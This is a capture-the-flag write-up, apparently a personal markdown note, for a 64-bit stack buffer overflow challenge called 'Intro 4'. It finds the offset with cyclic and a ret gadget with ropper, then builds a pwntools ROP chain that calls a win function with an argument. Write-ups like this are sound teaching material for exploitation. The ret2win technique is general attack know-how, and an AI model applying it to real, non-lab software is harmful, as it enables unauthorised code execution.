




# Intro 4

For this challenge we have no source code and only the binary.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

64 bit no PIE and NX enabled.

Ghidra shows us we have a main, vuln and win function



vuln:


win:


Okay so this is the same as intro 3 but we are 64 bit now not 32 bit.

This does change a few things for how we have to write our exploit.

First lets get the offset using cyclic 

```
RAX  0x7fffffffe4e0 ◂— 0x6161616261616161 ('aaaabaaa')
 RBX  0x0
 RCX  0x7ffff7f9c980 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RDX  0x0
 RDI  0x7ffff7f9e9a0 (_IO_stdfile_0_lock) ◂— 0x0
 RSI  0x4056b1 ◂— 0x6361616162616161 ('aaabaaac')
 R8   0x7fffffffe4e0 ◂— 0x6161616261616161 ('aaaabaaa')
 R9   0x0
 R10  0x6e
 R11  0x246
 R12  0x401090 (_start) ◂— endbr64
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x6161616a61616169 ('iaaajaaa')
 RSP  0x7fffffffe508 ◂— 'kaaalaaamaaa...'
 RIP  0x4011c9 (vuln+31) ◂— ret
```

We are looking at the values loaded into RSP "kaaa" checking with cyclic we get the offset of 40

No PIE again so we have the address of win but we can not just call the win function the same way we did with 32bit. we will need a return address otherwise the exploit will just fail.

We can use the tool "ropper" to get this
```ropper --file pwnme --search "pop rdi"```

This returns:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: pwnme
0x0000000000401253: pop rdi; ret;
```

Okay so the address we want is 0x401253

pwntools can also find this address for us by using the ROP function 

load the binary into it using "rop = ROP(exe)" were exe is your binary.

and calling rop.raw(rop.ret) will find this ret address for us.

Next we need the win function but again to make life easier we can use pwntools rop function: rop.win() but the win function needs to contain a parameters 0xdeadbeef and because its 64 bit we need to send that twice.

My final payload looks like this:
```
io = start()
rop = ROP(exe)
OFFSET = 40


payload = b'A' * OFFSET
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
payload += rop.chain()

io.sendline(payload)
io.interactive()
```




